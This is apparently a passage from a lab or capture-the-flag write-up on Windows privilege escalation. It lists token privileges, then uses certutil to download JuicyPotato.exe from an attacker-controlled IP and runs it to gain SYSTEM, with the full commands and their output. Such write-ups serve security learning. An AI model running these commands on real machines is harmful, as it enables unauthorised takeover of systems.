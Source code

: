 Check privilege tokens

```bash
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeAuditPrivilege                Generate security audits                  Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

### Juicy Potato

Since `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` tokens are available, we can use potato methods

**Godpotato** and **SweetPotato** did not work on this machine (perhaps the system is too old)

> [Writeup](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) about potatos

```bash
C:\>certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\>juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 55143
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
